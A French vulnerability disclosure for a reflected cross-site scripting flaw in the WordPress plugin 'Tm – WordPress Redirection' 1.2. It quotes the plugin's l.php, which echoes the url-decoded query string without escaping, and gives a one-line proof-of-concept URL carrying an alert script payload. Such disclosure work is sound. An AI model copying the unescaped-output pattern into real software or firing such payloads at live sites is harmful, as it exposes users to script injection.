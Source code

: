 ```yaml
---
title: "Cross-Site Scripting (reflected) dans le plugin Wordpress Tm – WordPress Redirection"
tags: [vulnérabilité]
---
```


## Présentation du plugin

Le plugin [Tm – WordPress Redirection](https://wordpress.org/plugins/tm-wordpress-redirection/) se présente de cette façon :

> Redirect link from another web with rel = nofollow like vBulletin or normal redirect.
>
> Just activate and settings…..

La version testée est la 1.2 et date d'il y a 13 ans au moment de ces lignes.

## La vulnérabilité

La vulnérabilité est toute simple. On a le script `l.php` suivant :

```php
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">          
<html xmlns="http://www.w3.org/1999/xhtml">                                                                            
    <head>                                                                                                             
        <?php                                                                                                                                                                                                                                                                                  
            $rootdirectory = dirname ( dirname (dirname (dirname (__FILE__))));                                        
            require_once( $rootdirectory . "/wp-config.php" );                                                         
            require_once( $rootdirectory . "/wp-includes/wp-db.php" );                                                 
                                                                                                                       
            $url=$_SERVER['QUERY_STRING'];                                                                             
            if($url)                                                                                                   
            {                                                                                                          
                $url = urldecode($url);                                                                                
            }                                                                                                          
        ?>
--- snip ---
    <body>                                                                                                             
                                                                                                                       
        <div id="warning">                                                                                             
            <p>Bạn đã nhấn vào một liên kết không thuộc <?php echo get_option("blogname"); ?></p>                      
            <p>Liên kết sẽ được chuyển tới:<br />                                                                      
                <b><?php echo $url; ?></b></p>                                                                         
            <p><a rel="nofollow" href="<?php echo $url; ?>">[Tôi đồng ý chuyển tới liên kết đã nhấn]</a>&nbsp;&nbsp;<a id="comeback" href=''>[Tôi không đồng ý, hãy đóng cửa sổ này lại]</a></p>
        </div>                                                                                                         
    </body>                                                                                                            
</html>
```

On peut voir que la query string (ce qui suit le caractère `?` dans l'URL) est url-décodé pour remplir la variable `$url`.

Cette variable est plus loin affichée directement sans échappement préalable.

Le PoC consiste à simplement passer le code HTML dans la query string :

```
http://localhost:8000/wp-content/plugins/tm-wordpress-redirection/l.php?%3Cscript%3Ealert(%27XSS%27)%3C/script%3E
```
